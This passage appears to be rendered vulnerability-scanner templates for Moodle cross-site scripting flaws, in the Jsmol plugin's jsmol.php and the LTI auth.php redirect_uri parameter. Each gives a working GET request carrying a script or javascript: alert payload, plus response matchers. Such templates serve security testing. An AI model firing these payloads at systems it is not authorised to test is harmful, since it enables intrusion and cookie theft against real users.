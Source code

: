 **Type - word**
- words
    1. onmousewheel=\"return bbimg(this)\"

**Type - status**
- status
    1. 200

---
# Moodle Jsmol - Cross-Site Scripting
## Description
- Moodle contains a cross-site scripting vulnerability via the Jsmol plugin and may also be susceptible to local file inclusion or server-side-request forgery. An attacker can execute arbitrary script in the browser of an unsuspecting user and steal cookie-based authentication credentials and launch other attacks.
- severity - medium
- tags - moodle,xss
## Requests
- Method - GET
### URL
- {{BaseURL}}/filter/jmol/js/jsmol/php/jsmol.php?call=saveFile&data=%3Cscript%3Ealert(%27XSS%27)%3C/script%3E&mimetype=text/html
### Matchers

**Type - status**
- status
    1. 200

**Type - word**
- words
    1. \<script>alert('XSS')\</script>
- part - body

**Type - word**
- part - header
- words
    1. text/html

---
# Moodle - Cross-Site Scripting
## Description
- Moodle 3.10 to 3.10.3, 3.9 to 3.9.6, 3.8 to 3.8.8, and earlier unsupported versions contain a cross-site scripting vulnerability via the redirect_uri parameter.
- severity - medium
- tags - moodle,xss
## Requests
- Method - GET
### URL
- {{BaseURL}}/mod/lti/auth.php?redirect_uri=javascript:alert('{{randstr}}')
### Matchers
